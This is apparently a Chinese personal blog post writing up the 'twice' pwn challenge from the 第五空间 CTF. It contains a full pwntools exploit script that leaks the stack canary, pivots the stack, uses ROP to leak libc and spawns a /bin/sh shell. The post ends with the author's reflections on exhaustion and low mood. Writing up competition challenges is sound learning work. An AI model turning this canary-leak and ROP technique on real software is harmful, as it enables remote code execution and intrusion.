

最近很懒了，被学校的一些恶心人的操作搞了身心俱疲
这第五空间，据说去年是个垃圾比赛，水一水进决赛恰烂钱，我寻思着和北辰一样拿10w快乐一下，但是连线下都没进…
今年的题目质量据说比去年更有提高，起码不是全pwn了是不是
只给了3个pwn
签到被KMFL秒了
其他两个弱智题
一个of，给了源码，但是远程测得结果和源码不一样
还有一个arm题，环境起不来没办法跑当时（后来起来了也不知道咋调）
都没有远程环境了，连黑盒测试都测试不了
算了，就贴一个签到题的好了
Pwn
twice

没什么好说的，泄露canary，泄露rbp，调试得栈地址，栈迁移到栈上写ROP链
exp
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn'
local = 1
if local == 1:
p=process(binary)
else:
p=remote("121.36.59.116",9999)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def exp():
p.recvuntil(">")
p.send("bbbb"+"a"*85)
p.recvuntil("a"*85)
canary = u64(p.recv(7).rjust(8,"\x00"))
print hex(canary)
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x70
log.success("stack_addr==>" + hex(stack_addr))
p.recvuntil(">")
payload = p64(0) + p64(0x0000000000400923) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400630)
payload += "a"*(88-len(payload))
payload += p64(canary) + p64(stack_addr) + p64(0x0000000000400879) # 我连gadget都懒得定义了，凑合看吧，动手找一找应该就知道是什么了
p.send(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = puts_addr - libc.sym['puts']
log.success("puts_addr==>" + hex(puts_addr))
log.success("libc_base==>" + hex(libc_base))
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search("/bin/sh").next()
p.recvuntil(">")
p.send("bbbb"+"a"*85)
p.recvuntil("a"*85)
canary = u64(p.recv(7).rjust(8,"\x00"))
print hex(canary)
stack_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x70
log.success("stack_addr==>" + hex(stack_addr))
p.recvuntil(">")
payload = p64(0) + p64(0x0000000000400923) + p64(binsh) + p64(system) + p64(0xdeadbeef)
payload += "a"*(88-len(payload))
payload += p64(canary) + p64(stack_addr) + p64(0x0000000000400879)
p.send(payload)
p.interactive()
exp()Reverse
咕咕咕……
还没做出来，后面找时间做吧
很可能直接不做了（x
后面可能很长一段时间不会更博客了，没有强有力的激励，感觉心态特别难调整得过来
透过屏幕看到的其他人，总感觉他们的生活是那么的愉悦多彩，自己却好像过的不是人过的日子
最近特别懒，什么都不想动，只想睡觉，连这篇exp，都是比赛结束一周后才贴上来的，这一天天的感觉什么事情都没做但是又特别累，负面情绪特别严重，老是被一些还没到来的事情烦恼，天天想这那的，其实自己都懂该来的都会来，老想着它也阻止不了改变不了什么，只会徒增烦恼，但就是忍不住就会去想这些事情，把自己弄得很疲惫，同时又恨自己无力改变，很多特别小的事情，都没有能力去控制，更别说做出什么大事业，把自己关在电脑里，可能仅仅是一种逃避罢了，终究还是要面对，但是对未来的事情，却又底气不足
唯一可以强忍着不让自己崩溃的，可能就是胸前的党徽还有那份信仰了